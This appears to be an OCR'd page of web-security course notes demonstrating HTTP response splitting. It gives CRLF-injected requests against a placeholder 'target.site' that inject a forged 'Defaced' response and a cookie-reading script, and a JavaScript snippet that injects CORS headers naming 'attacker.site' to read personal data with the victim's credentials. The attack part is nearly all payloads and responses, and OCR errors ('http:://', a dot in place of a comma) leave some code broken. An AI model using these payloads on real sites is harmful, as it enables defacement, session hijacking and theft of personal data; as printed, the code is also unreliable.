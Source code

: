 #### CR = %0d #

#### LF = %0a #

GET http:://target.site/trackUrl.php?url=<http://elsfoo.com>

---

HTTP Response

HTTP/1.1 200 OK

Content-Length: 0

Content-Type: text/html

Set-cookie: lastUrl = <http://elsfoo.com>

---

GET http:://target.site/trackUrl.php?url=<http://elsfoo.com%0d%0aHTTP/1.1%20200%20OK%0d%0aContent%2dType:%20text/html%0d%0aContent%2dLength:%2028%0d%0a%0d%0a><html><h1>Defaced</h1></html>
---

HTTP Response

HTTP/1.1 200 OK
Content-Length: 0
Content-Type: text/html
Set-cookie: lastUrl = <http://elsfoo.com>
[CRLF]
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 28
[CRLF]
<html><h1>Defaced</h1></html>

---

XSS through HTTP response splitting

GET http:://target.site/trackUrl.php?url=<http://elsfoo.com%0d%0aHTTP/1.1%20200%20OK%0d%0aContent%2dType:%20text/html%0d%0aContent%2dLength:%2039%0d%0a%0d%0a><script>alert(document.cookie)</script>

---

HTTP Response

HTTP/1.1 200 OK
Content-Length: 0
Content-Type: text/html
Set-cookie: lastUrl = <http://elsfoo.com>
[CRLF]
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 39
[CRLF]
<script>alert(document.cookie)</script>

---

Bypassing Same Origin Policy

<script>

function loadXMLDoc()
{
  var xmlhttp;
  xmlhttp = new XMLHttpRequest();
  xmlhttp.withCredentials = true;
  xmlhttp.onreadystatechange = function()
  {
    if (xmlhttp.readyState == 4 && xmlhttp.status == 200)
    {
      document.getElementById("responseDiv").innerHTML = xmlhttp.responseText;
    }
  }

  xmlhttp.open("GET"."http://target.site/getPersonalData.php?trackingUrl=test%0d%0aAccess-Control-Allow-Origin:%20http://attacker.site%0d%0aAccess-Control-Allow-Credentials:%20true", true);
  xmlhttp.send();

}

</script>

